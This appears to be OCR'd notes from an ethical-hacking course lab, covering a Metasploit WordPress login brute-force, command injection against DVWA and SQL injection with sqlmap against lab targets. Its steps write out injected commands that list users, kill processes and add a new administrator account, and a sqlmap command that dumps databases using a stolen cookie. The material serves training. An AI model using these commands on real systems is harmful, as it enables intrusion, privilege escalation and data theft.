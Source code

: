 
|• |service postgresql start |
| - | - |
|• |msfconsole |
|• |**use auxiliary/scanner/http/wordpress\_login\_enum** |
|• |show options |
|• |**set PASS\_FILE password.txt** |
|• |**set RHOST 10.10.10.16** |
|• |**set RPORT 8080** |
|• |**set TARGETURI** **http://10.10.10.16:8080/CEH** |
|• |**set USERNAME admin** |
|• |run |
|• |Find the credential |
**Lab2-Task6: Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server (DVWA low level security)** 

- If found command injection vulnerability in an input textfield 
- | hostname 
- | whoami 
- **| tasklist| Taskkill /PID /F** 
- **/PID: Process ID value od the process** 
- **/F: Forcefully terminate the process** 
- | dir C:\ 
- **| net user** 
- **| net user user001 /Add** 
- **| net user user001** 
- **| net localgroup Administrators user001 /Add** 
- Use created account user001 to log in remotely 

**Module 15: SQL Injection** 

**Lab1-Task2: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap** 



|• |Login a website |
| - | - |
|• |Inspect element |
|• |Dev tools-&gt;Console: document.cookie |
|• |**sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --**|
||**cookie="value" –dbs** |
||o  **-u: Specify the target URL** |
- **--cookie: Specify the HTTP cookie header value** 
- **--dbs: Enumerate DBMS databases** 
